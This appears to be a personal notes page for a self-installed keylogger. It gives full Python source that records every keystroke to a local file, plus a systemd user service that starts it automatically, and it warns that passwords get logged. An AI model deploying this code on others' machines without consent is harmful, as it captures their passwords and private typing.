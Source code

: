 ```yaml
---
share: true
uuid: 03ce87b5-898b-4e7a-9c47-6694c8d652fe
title: DIY Keylogger
---
```

## Description

The goal of this project is to install a key logger on myself so I can later do analysis on the data I generate. **Beware** running this will log your passwords to a file in user space unless you remember to turn it off and on.

## Install Instructions

``` bash
python3 -m pip install pynput 
nano keylogger.py
# Copy Contents from below into file
sudo cp keylogger.py /opt
mkdir -p ~/.config/systemd/user
nano keylogger.service
# Copy Contents from below into file
envsubst < keylogger.service > temp.txt && mv temp.txt keylogger.service
cat keylogger.service
cp keylogger.service ~/.config/systemd/user/keylogger.service

# Start Keylogger
systemctl --user start keylogger.service

# Enable keylogger on startup
systemctl --user enable keylogger.service

# Check if keylogger is running
systemctl --user status keylogger.service

# Stop keylogger
systemctl --user stop keylogger.service

# To update keylogger.py script
systemctl --user daemon-reload
systemctl --user restart keylogger.service
systemctl --user status keylogger.service
# Check keylogger logs
cd ~/keylogger
ls
cat key*
```

## keylogger.py

``` python    
#!/bin/python3
# keylogger.py
import importlib

def check_and_install_dependency(package):
    try:
        importlib.import_module(package)
        print(f"{package} is already installed.")
    except ImportError:
        print(f"{package} is not installed. Installing...")
        try:
            import pip
            pip.main(['install', package])
            print(f"{package} has been successfully installed.")
        except ImportError:
            print("pip is not installed. Please install pip and try again.")
            return

    print(f"Loading {package}...")
    importlib.import_module(package)
    print(f"{package} has been loaded successfully.")
check_and_install_dependency('pynput')

from pynput import keyboard
import logging
import os
import socket
import sys

log_dir = "/home/paul/Documents/Software/keylogger"
if len(sys.argv) > 1:
    log_dir = sys.argv[1]
print(f"{log_dir}/keyLog-{str(socket.gethostname())}.txt")
try:
	os.makedirs(log_dir)
except:  
    print(f'PATH {str(log_dir)} already exists')
logging.basicConfig(filename = f"{log_dir}/keyLog-{str(socket.gethostname())}.txt", 
    level=logging.DEBUG, format='%(asctime)s: %(message)s')


def get_key_name(key):
    if isinstance(key, keyboard.KeyCode):
        return key.char
    else:
        return str(key)

def on_press(key):
    key_name = get_key_name(key)
    logging.info('Key {} pressed.'.format(key_name))
    print(key_name)

def on_release(key):
    key_name = get_key_name(key)
    logging.info('Key {} released.'.format(key_name))

with keyboard.Listener(
    on_press = on_press,
    on_release = on_release) as listener:
    listener.join()
    
```

## keylogger.service

``` service
# keylogger.service
[Unit]
Description=Keylogger Service
# Requires=display-manager.service
# After=display-manager.service
# Environment='DISPLAY=:0'

[Service]
ExecStart=/usr/bin/python3 /opt/keylogger.py /home/paul/keylogger

[Install]
WantedBy=multi-user.target

```


## Troubleshooting

``` bash
sudo /usr/bin/python -m ensurepip --upgrade
sudo /usr/bin/python -m pip install six
sudo /usr/bin/python -m pip install python-xlib
sudo /usr/bin/python -m pip install six

```
## Links

* [Keylogger Binding](/23b9004c-6bb4-4bc8-a79a-d27e2fb4f35c)
* [keylogger research](/keylogger research)

## Sources

* [Design a Keylogger in Python](https://www.tutorialspoint.com/design-a-keylogger-in-python)
* [Logging in Python – Real Python](https://realpython.com/python-logging/)
* [ChatGPT - A ShareGPT conversation](https://sharegpt.com/c/al2TNIJ)